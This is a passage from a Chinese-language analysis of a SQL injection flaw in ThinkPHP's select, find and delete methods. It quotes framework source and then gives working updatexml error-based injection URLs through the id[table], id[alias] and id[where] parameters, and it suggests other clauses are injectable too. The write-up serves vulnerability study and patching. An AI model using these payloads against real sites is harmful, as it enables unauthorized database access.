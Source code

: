 `delete`函数有些不同，主要是在解析完`$options`之后，还对`$options['where']`判断了一下是否为空，需要我们传一下值，使之不为空,从而继续执行删除操作。

```
......
        // 分析表达式
        $options = $this->_parseOptions($options);
        if (empty($options['where'])) { //注意这里，还判断了一下$options['where']是否为空，为空直接返回，不再执行下面的代码。
            // 如果条件为空 不进行删除操作 除非设置 1=1
            return false;
        }
        if (is_array($options['where']) && isset($options['where'][$pk])) {
            $pkValue = $options['where'][$pk];
        }

```
 if (false === $this-&gt;_before_delete($options)) {
        return false;
    }
    $result = $this-&gt;db-&gt;delete($options);
    if (false !== $result &amp;&amp; is_numeric($result)) {
        $data = array();
        if (isset($pkValue)) {
            $data[$pk] = $pkValue;
        }

        $this-&gt;_after_delete($data, $options);
    }
    // 返回删除记录个数
    return $result; 
``` 
```

### 漏洞复现

针对`select()` 和`find()`方法 ,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

```
table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias：[http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Balias%5D=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)– `where: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Bwhere%5D=1%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)–` 
```

![image](../img/5057739dd2b302d5ba73c000df489787.png)
